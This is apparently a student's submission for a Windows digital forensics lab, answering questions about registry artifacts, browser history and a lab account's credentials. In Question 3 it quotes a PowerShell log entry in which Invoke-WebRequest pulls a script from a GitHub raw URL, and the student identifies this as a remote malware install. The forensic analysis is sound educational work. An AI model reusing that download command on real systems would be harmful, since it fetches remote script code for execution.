                        						 ![](C:\Users\Muhammad Musayiab\OneDrive\Desktop NU-logo.jpg)

**21k-4760**
**Muhammad Musayiab**

**Question no 1:**

Part a) Mouse double click speed : 500

Part b) url1Registry Last write: 2023-01-29 16:25:07
Value: url1 (RegSz)
Data: C:\Windows\System32\calc.exe

Part c) Registry file: Value: Malware (RegSz)
Data: C:\Users\w\Desktop\malware.exe
Slack: 00-00-78-00-65-00

**Question no 2:**

Part a) Username: hackerman
	   b) password: sup3rs3cur3p4ssw0rd
Part b) What’s the most frequently visited website? (amazon.com)
Part c) download :  pyhton downlooad.


**Question no 3:**

Part a) Log Name:      Microsoft-Windows-PowerShell/Operational
Source:        Microsoft-Windows-PowerShell
Date:          1/29/2023 10:55:04 PM
Event ID:      4104
Task Category: Execute a Remote Command
Level:         Verbose
Description:
Creating Scriptblock text (1 of 1):
Invoke-WebRequest -UseBasicParsing -Uri https://raw.githubusercontent.com/vonderchild/digital-forensics-lab/main/Lab%202/files/file.ps1 -OutFile "file.ps1"

Part b) The purpose was to install malware remotely to the computer.


